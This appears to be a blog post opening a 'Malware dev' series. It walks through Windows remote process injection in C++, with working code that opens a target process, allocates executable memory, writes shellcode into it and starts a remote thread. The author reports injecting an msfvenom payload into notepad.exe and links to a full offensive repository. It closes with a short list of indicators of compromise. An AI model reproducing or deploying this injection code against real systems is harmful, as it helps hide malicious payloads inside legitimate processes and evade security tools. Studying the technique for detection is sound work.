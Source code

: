 ```yaml
---
title: Remote process injection
published: true
categories: [Malware dev, C++]
tags: [Malware dev, C++, Process injection]
author: Alejandro Rivera
pin: false
image:
  path: https://github.com/Krypteria/Offensive_CPP/assets/55555187/e7d5eef8-559c-4c02-b2a2-eeb0462fa334
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA

---
```


This is the first post of a few that I will be publishing related to malware development (or attempt to) in C++. This series of posts have no pretension, my main goal is to publish my progress in this area as a blog and use them to consolidate my knowledge, if they can also be useful to someone else, good ^^. With all this clarified, this first post will deal with the remote process injection technique.

Remote process injection is one of the oldest injection techniques in existence and although it is not extremely sophisticated (due to the fact that in the past there were no security measures as effective in detecting this type of technique as modern EDRs) it is a good place to start this series to gain knowledge that will be necessary in more complex techniques (as they say in my country, you should not start the house from the roof).

Let's start with the basics, what does the remote process injection technique consist of? 

This technique consists, roughly speaking, of hiding the execution of a set of instructions within a legitimate process, trying to make the execution as unnoticed as possible. For example, let's take the following images:



In this image we can see a custom binary that opens a cmd.exe process which in turn runs a conhost.exe. At first glance it looks quite suspicious. Now let's look at the next image:



While it is true that we have the same scenario, (a binary running cmd.exe and in turn conhost.exe), this time it is not an ordinary binary, it is an operating system binary, which could raise doubts about its legitimacy.

Now that we have seen the potential of this technique, let's see how we can program it in C++ and what is the logic behind it.

Let's start, the first thing we have to do is to obtain a Handle of the process we want to use. A Handle of a process is nothing more than an identifier that allows us to interact with it, you can see it as the descriptor of a file if we were working with files. 

To obtain this Handle I will make use of the [OpenProcess](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-openprocess) function of the Windows API (it is vital to familiarise ourselves with the official Windows documentation as we will spend many hours reading it).

```c++
DWORD pid = atoi(argv[1]);

HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, false, pid);

if (hProcess == NULL){
    printf("%s Cannot get the handle to the process\n", err);
    return EXIT_FAILURE;
}

printf("%s Handle to the process obtained\n", ok);
```

Once we have obtained the Handle, we can start interacting with the process :). 

The next step is to allocate memory in the remote process to host our payload there. To do this, we will use the [VirtualAllocEx](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualallocex) function of the Windows API, another alternative could be the **NtAllocateVirtualMemory** function of the **Undocumented Windows API**. The choice of which function to use in the end will depend on the needs we have.

```c++
unsigned char shellcode[]="Your epic shellcode here";

LPVOID bAddress = VirtualAllocEx(hProcess, NULL, sizeof(shellcode), MEM_RESERVE | MEM_COMMIT, PAGE_EXECUTE_READWRITE);

if(bAddress == NULL){
    printf("%s Cannot allocate memory for the shellcode\n", err);
    return EXIT_FAILURE;
}

printf("%s Memory allocated succesfully at %p\n", ok, bAddress);
```

The VirtualAllocEx function returns a pointer to the beginning of the memory space we have reserved. We will use this pointer to tell the [WriteProcessMemory](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-writeprocessmemory) function where we want to write the contents of the shellcode variable. 

```c++
if(WriteProcessMemory(hProcess, bAddress, shellcode, sizeof(shellcode), NULL) == 0){
    printf("%s Cannot write on memory, error %s\n", err, GetLastError());
    return EXIT_FAILURE;
}

printf("%s Memory written succesfully\n", ok);
```

Once we have the shellcode content written in the process memory, the only thing we need to do to execute it is simply to create a Thread that starts its execution at the memory address where the shellcode is hosted. To do this, we will again use the pointer to the memory address returned by VirtualAllocEx and the Handle obtained by OpenProcess in the [CreateRemoteThread](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createremotethread) function.

```c++
HANDLE hRemote = CreateRemoteThread(hProcess, NULL, 0, (LPTHREAD_START_ROUTINE)bAddress, NULL, 0, NULL);

if(hRemote == NULL){
    printf("%s Cannot get the handle to the remote process\n", err);
    return EXIT_FAILURE;
}

printf("%s Remote thread executed succesfully\n", ok);

CloseHandle(hRemote);
CloseHandle(hProcess);

return EXIT_SUCCESS;
```

Once we have completed these steps, we compile the program and we will have an executable capable of performing this technique. The complete code can be found in the [Offensive CPP](https://github.com/Krypteria/Offensive_CPP) repository on my Github

Let's see what the execution of the complete code looks like:


As you can see in the image, we have managed to inject the shellcode in the process notepad.exe, if we go to the memory address reserved by VirtualAllocEx we can observe several things

- The memory space has been reserved as type **Private: Commit**
- The memory space has **RWX permissions**
- The shellcode has been written correctly ( as a payload created by msfvenom, it is obfuscated).

These three observations already show us some of the problems of this technique in terms of evading modern security measures. Just with what we have discussed in the previous paragraph we can already extract the following IOCs (Indicators of Compromise):

- Memory allocation using win32 API calls
- Creation of a Thread that points to a private memory space
- Private memory space with execution permissions

There are many more IOCs you can find in this post by [Mitre](https://attack.mitre.org/techniques/T1055/)

With all of this, it is fundamental to understand this technique for future sophistications or more advanced techniques that I will publish :)
